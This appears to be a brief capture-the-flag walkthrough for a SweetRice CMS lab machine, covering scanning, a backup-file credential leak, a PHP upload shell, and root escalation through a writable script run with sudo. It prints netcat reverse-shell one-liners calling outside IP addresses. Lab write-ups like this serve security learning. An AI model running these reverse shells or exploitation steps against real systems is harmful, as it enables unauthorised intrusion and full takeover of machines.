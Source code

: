 start with nmap

http and ssh is open.

fuff

/content

in content dircotory sweetrice cms is hosted.

sweetrice is vul for backup disclouse which leak creds.
`/inc/mysql_backup`

got creds

manager:Password123

log in into sweetrice.

another vul present in sweetrice. upload file.

upload file. shell.php5. got rev shell as user.

anyone can run backup.pl as root.

backup.pl:

```pl
#!/usr/bin/perl                                            
                                                                                                                      
system("sh", "/etc/copy.sh"); 
```

lets look at `copy.sh`

copy.sh

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f 
```

add rev shell bash script into copy.sh

```bash	
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.133.3 1337 > /tmp/f" >
 /etc/copy.sh
```

run backup.pl

`sudo /usr/bin/perl /home/itguy/backup.pl`

got root shell.